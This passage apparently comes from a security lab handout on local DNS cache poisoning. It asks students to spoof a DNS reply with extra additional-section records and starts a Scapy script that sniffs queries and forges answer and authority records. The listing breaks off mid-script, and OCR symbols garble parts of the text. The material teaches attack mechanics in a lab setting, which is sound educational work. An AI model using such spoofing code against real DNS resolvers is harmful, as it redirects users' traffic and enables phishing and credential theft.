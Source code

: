 
example.com. 259200 IN NS ns.example.com.

;; ADDITIONAL SECTION:
ns.attacker32.com. 259200 IN A 1.2.3.4 ¿
ns.example.net. 259200 IN A 5.6.7.8 ¡
[http://www.facebook.com.](http://www.facebook.com.) 259200 IN A 3.4.5.6 ¬

Entries¿and¡are related to the hostnames in the Authority section. Entry¬is completely irrelevant
to any entry in the reply, but it provides a “gracious” help to users, so they do not need to look up for the IP
address of Facebook. Please use Scapy to spoof such a DNS reply. Your job is to report what entries will be
successfully cached, and what entries will not be cached; please explain why.

### 3.6 What’s Next

In the DNS cache poisoning attack of this lab, we assume that the attacker and the DNS server are on the
same LAN, i.e., the attacker can observe the DNS query message. When the attacker and the DNS server
are not on the same LAN, the cache poisoning attack becomes much more challenging. If you are interested
in taking on such a challenge, you can try our “Remote DNS Attack Lab”.

## 4 Guideline

You need to use Scapy for several tasks in this lab. The following sample code shows how to sniff a DNS
query and then spoof a DNS reply, which contains a record in the Answer section, two records in the Author-
ity section and two records in the Additional section. The code is already included in theLabsetup.zip
file (inside thevolumesfolder).

Listing 1: Sample code:dnssniffspoof.py
#!/usr/bin/env python
from scapy.all import *

def spoof_dns(pkt):
if (DNS in pkt and ’www.example.net’ in pkt[DNS].qd.qname.decode(’utf-8’)):

```
# Swap the source and destination IP address
IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
```
```
# Swap the source and destination port number
UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
```
```
# The Answer Section
Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type=’A’,
ttl=259200, rdata=’10.0.2.5’)
```
```
# The Authority Section
NSsec1 = DNSRR(rrname=’example.net’, type=’NS’,
ttl=259200, rdata=’ns1.example.net’)
NSsec2 = DNSRR(rrname=’example.net’, type=’NS’,
ttl=259200, rdata=’ns2.example.net’)
```
```
# The Additional Section
Addsec1 = DNSRR(rrname=’ns1.example.net’, type=’A’,
```
